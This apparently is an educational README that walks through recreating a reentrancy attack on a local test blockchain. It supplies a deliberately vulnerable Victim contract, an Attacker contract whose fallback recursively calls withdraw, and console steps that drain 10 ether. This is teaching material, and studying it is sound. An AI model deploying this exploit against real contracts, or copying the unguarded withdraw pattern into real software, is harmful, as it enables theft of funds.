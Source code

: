 # Recreating Reentrancy Attack
The document below goes through a "reentrancecy attack" scenario using 2 smart contract, a "Victim" and an "Attacker" contracts.

## Instructions

### 1. Run `TestRPC`

We run `testrpc` with the `-u` and `0` params to unlock the 1st account
(out of 10 provided by `TestRPC`) so we can make transactions from that account.

```
$ testrpc -u 0
```

### 2. Prereqs:

[NodeJS](https://nodejs.org/en/)

### Install TestRPC (testing blockchain) and TruffleJS (smart contract deployment tool)

```
$ npm i -g ethereumjs-testrpc
$ npm i -g truffle
```

### 3. Getting Started:

### Setup

```
$ mkdir reentrancy_attack
$ cd reentrancy_attack
$ truffle init
$ rm -rf test/ contracts/ConvertLib.sol contracts/MetaCoin.sol
$ touch contracts/Attacker.sol contracts/Victim.sol
```

#### inside of our `contracts/Victim.sol` file write:

```
pragma solidity ^0.4.8;

contract Victim {

  function withdraw() {
    uint transferAmt = 100000000000000000;
    if (!msg.sender.call.value(transferAmt)()) throw;
  }

  function deposit() payable {}
}
```

#### inside of our `contracts/Attacker.sol` file write:

```
pragma solidity ^0.4.8;

import './Victim.sol';

contract Attacker {
  Victim v;
  uint public count;

  event LogFallback(uint c, uint balance);

  function Attacker(address victim) {
    v = Victim(victim);
  }

  function attack() {
    v.withdraw();
  }

  function () payable {
    count++;
    LogFallback(count, this.balance);
    if (count < 10) {
      v.withdraw();
    }
  }
}
```

#### inside of our `migrations/2_deploy_contracts.js``` file write:

```
const Victim = artifacts.require('./Victim.sol')
const Attacker = artifacts.require('./Attacker.sol')

module.exports = function(deployer) {
  deployer
    .deploy(Victim)
    .then(() =>
      deployer.deploy(Attacker, Victim.address)
    )
}
```

### 3. Compile & Deploy Contract:

The command below creates a `build` folder, in the this
folder is your contracts in their `binary` and `abi` forms.

```
$ truffle compile
```

The command below `deploys` the contracts
(Migration, Victim, Attacker) to our test blockchain (testrpc).

```
$ truffle migrate
```

### 4. Open up the truffle/node console and deposit eth into our `Victim` contract instance.

So now we run the command below to get inside of the truffle console,
so we can interact with our deployed contracts (Victim, Attacker), and
utilize the `web3` object to to run `JSONRPC` commands.

```
$ truffle console
```

We're going to store the account we accounted from before in a `acct1` variable.

```
truffle(development)> acct1 = web3.eth.accounts[0]
```

Then we are going to store our `Victim` contract instances in a `victim` variable
so we can interact with the contract easily. The `.deployed` method gives us that instance.

```
truffle(development)> victim = Victim.deployed()
```

We'll also store our `Victim`'s contract address, so we can interact with it later.

```
truffle(development)> victimAddress  = victim.then(contract  => contract.address)
```

Now lets create a utility function so we can check address balance's and save key strokes.

```
truffle(development)> getBalance = web3.eth.getBalance
```

Now lets check the balance's of the 2 addresses we stored in variables. (acct1, victimAddress).

```
truffle(development)> web3.fromWei(getBalance(acct1).toString())

'99.18' // or somthing close to this
```

```
truffle(development)> web3.fromWei(getBalance(victimAddress).toString())

'0'
```

Now we are going to send our `Victim` contract some `ether`
from the `acct1` address we unlocked earlier.

```
truffle(development)> victim.then(contract  => contract.deposit.sendTransaction({from: acct1, to: contractAddress, value: web3.toWei(11, 'ether')}))
```

So there's alot going on in this line of code, so lets break it down. Our
`Victim` contract instance has a `deposit` function with a payable modifier,
that allows us to send ether to that function/contract from our `acct1` address.
Here's another look at that function.

```
path: ./contracts/Victims.sol

line 10 - function deposit() payable {}
```

Now lets check the balance's of the 2 addresses again,
which should read or come close to the amounts below.

```
truffle(development)> web3.fromWei(getBalance(acct1).toString())

'88.18' // or somthing close to this
```

Now our victims contract has 11 ether balance.

```
truffle(development)> web3.fromWei(getBalance(victimAddress).toString())

'11'
```

### 5. Now for the `Attacker`'s side

So now that we have our `Victim`'s contract and we have
eth in that contract, lets steal some of that. but first lets check
if we even need any. (check attacker's balance)

```
attacker = Attacker.deployed()
```

```
attackerAddress = attacker.then(contract => contract.address)
```

```
truffle(development)> web3.fromWei(getBalance(attackerAddress).toString())

'0'
```

There shouldn't be any funds unless you've been stealing already!
After we have our scenario (all our variables set up). We can `contract.attack()`.

So from our `Attacker` contract instance we are going to call the `.attack()` method
that will then call the `Victim` contract instance's `withdraw()` method.

```
attacker.then(contract => contract.attack())
```

The `.attack()` method above is going to run recursively 10 times, because of the
conditional in our `default payable` function.

Now if everything is done correctly, we can see the reflection of what happened
by checking the `Victim` and `Attacker`'s balances.

```
truffle(development)> web3.fromWei(getBalance(attackerAddress).toString())

'10'
```

```
truffle(development)> web3.fromWei(getBalance(victimAddress).toString())

'1'
```

So as you can see the `Victim`'s contract is missing an additional `10` eth!!!

6. The Attack!!!

So the attacker finds a contract to attack, gets the contract's address and creates an
`Attacker` contract with an instances of the `Victim`'s contract to call against and targets the
the deployed `Victim`'s contract by address. Onces it has all of those variables in place, the attacker can
deploy the malicious contract to the Ethereum network and then call the `.attack()` method to drain
the `Victim`s address.

